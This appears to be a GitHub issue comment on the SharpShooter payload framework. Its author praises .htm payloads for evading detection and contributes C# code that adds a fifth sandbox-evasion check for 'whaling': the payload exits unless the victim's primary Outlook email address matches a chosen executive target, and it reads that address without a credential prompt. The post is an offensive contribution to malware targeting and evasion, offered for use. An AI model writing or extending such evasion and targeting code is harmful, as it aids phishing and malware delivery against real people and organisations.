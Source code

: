Thanks Sharpshooter for providing such a excellent tool to generate payload. File with .htm extension is so much easier to go under the radar. 
Although it comes with sandbox evasion, I may not able to use that 4 built-in techniques to distinguish a well-built sandbox from a normal laptop. Then I realized enterprise email account would be a good identifier, if you are doing whaling. Just add a new Case (i.e. 5) and ask outlook for primary address, not credential prompt on client-side~~~

In SharpShooter/CSharpShooterStageless/SharpShooter.cs
```
public void CheckPlease(int check, string arg)
  {
      CheckPlease cp = new CheckPlease();
      switch(check)
      {
          case 0:
              if (!cp.isDomain(arg)) Environment.Exit(1);
              break;
          case 1:
              if (!cp.isDomainJoined()) Environment.Exit(1);
              break;
          case 2:
              if (cp.containsSandboxArtifacts()) Environment.Exit(1);
              break;
          case 3:
              if (cp.isBadMac()) Environment.Exit(1);
              break;
          case 4:
              if (cp.isDebugged()) Environment.Exit(1);
              break;
          case 5:
              if (!cp.isDesignatedEmail(arg)) Environment.Exit(1);
              break;
      }
  }
```

In SharpShooter/CSharpShooterStageless/CheckPlease.cs

```
public bool isDesignatedEmail(String input)
{
    if ((new Outlook.Application()).Session.Accounts[1].SmtpAddress.Equals(input))
    { return true;}
    else { return false; }
}
``` 
